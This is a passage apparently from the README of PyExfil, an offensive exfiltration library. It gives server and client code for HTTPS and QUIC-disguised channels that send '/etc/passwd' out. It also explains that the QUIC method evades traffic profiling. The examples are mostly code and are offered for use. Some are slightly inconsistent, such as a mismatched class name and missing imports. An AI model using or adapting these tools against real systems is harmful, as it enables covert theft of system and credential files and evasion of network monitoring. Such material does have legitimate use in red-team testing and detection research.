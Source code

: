 ```python
```

As an exfiltration module for files:
```python
# Server:
from pyexfil.network.HTTPS.https_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123", port=443, max_connections=5, max_size=8192, file_mode=True)
server.startlistening()

# Client:
from pyexfil.network.HTTPS.https_client import HTTPSExfiltrationClient

client = HTTPSExfiltrationClient(host='127.0.0.1', key="123", port=443, max_size=8192)
client.sendFile("/etc/passwd")
client.close()
```

#### QUIC
With this method, we exfiltrate files over UDP 443 as to look like QUIC. Currently, it is written as first PoC and less as a functional tool. For example, will only work with one file at a time and not concurrent. Validity only checks MD5 and not individual packets (server does not request missing chunks from client, which it should). Nevertheless, this seems to work fine in several checks we've done and seems viable exfiltration for single file.

In the future, we should add the things mentioned above. Currently, this does not seem like there is a profiling that can be done on these streams as they appear to be identified by all interceptors as QUIC and unresolvable to the content (while QUIC uses true SSL, this uses AES which still gives a binary blob which is meaningless).

Server:
```python
from pyexfil.network.QUIC.quic_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123")
server.startlistening()
```

Client:
```python
from pyexfil.network.QUIC.quic_client import QUICClient

client = QUICClient(host='127.0.0.1', key="123", port=443)      # Setup a server

# This part is just for debugging and printing, no read use
a = struct.unpack('<LL', client.sequence)                       # Get CID used
a = (a[1] << 32) + a[0]
sys.stdout.write("[.]\tExfiltrating with CID: %s.\n" % a)

client.sendFile("/etc/passwd")                                  # Exfil File
client.close()
```
